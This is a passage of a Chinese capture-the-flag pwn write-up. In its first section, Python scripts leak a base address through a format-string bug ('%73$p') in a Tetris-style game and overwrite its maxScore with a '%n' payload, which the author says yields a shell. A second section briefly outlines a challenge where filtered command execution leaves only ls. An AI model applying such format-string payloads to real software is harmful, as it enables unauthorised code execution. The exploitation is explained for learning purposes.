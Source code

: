 鲁迅曾经说过：

>一切皆文件

所以上述代码的浏览主要以`msg`和`record`这两个文件为线索。

现在思路就很明朗了，通过格式化字符串漏洞修改`maxScore`，消除一行方块，触发历史记录更新，改写`record`文件，重新开始游戏，getshell。

>关于文件权限，可以通过`ls -al` 查看：
> 
>`msg`可读可写，`record`可读，只有运行els程序时可写

由于开了地址随机化，`maxScore`的地址不固定，但是这在格式化字符串漏洞面前都不是事儿，先泄漏，再改写即可。exp如下：

`leak.py`

```python
#!/usr/bin/python
payload = "%73$p"
f = open('/home/ctf/msg','w')
f.write(payload)
f.close()
```
`exp.py`

```python
#!/usr/bin/python
from struct import pack
from sys import argv

start = eval(argv[1])
score = start-0x1180+0x53ac

# hex(666666) = 0xa2c2a
payload = "%20c%8$n" + pack('<Q', score+2)
print hex(score)
f = open('/home/ctf/msg','w')
f.write(payload)
f.close()
```
上述两个文件放到`/tmp`目录下，先执行leak拿到程序基址，再通过exp计算`maxScore`地址并改写。消除一行方块后触发记录更新，游戏结束后`maxScore`写入文件，再次打开游戏即可getshell。



## 营救Imagin(rci) - TaQini

考察点：linux基础，ls命令

>本题的设计源于HGame2020 - findyourself
> 
>题解链接：[http://taqini.space/2020/02/12/2020-Hgame-pwn-writeup/#findyourself](http://taqini.space/2020/02/12/2020-Hgame-pwn-writeup/#findyourself)

![](http://image.taqini.space/img/F4615175823EF6117CE409EBD447CC40.jpg)

背景就不多介绍了，imagin被关进了随机创建的48个房间之一，这时有一次执行系统命令的机会，经过层层过滤，只有ls命令可用，使用ls获取一些线索后，就要输入imagin所在的正确房间号了，答对后获得第二次执行系统命令的机会，可以getshell。
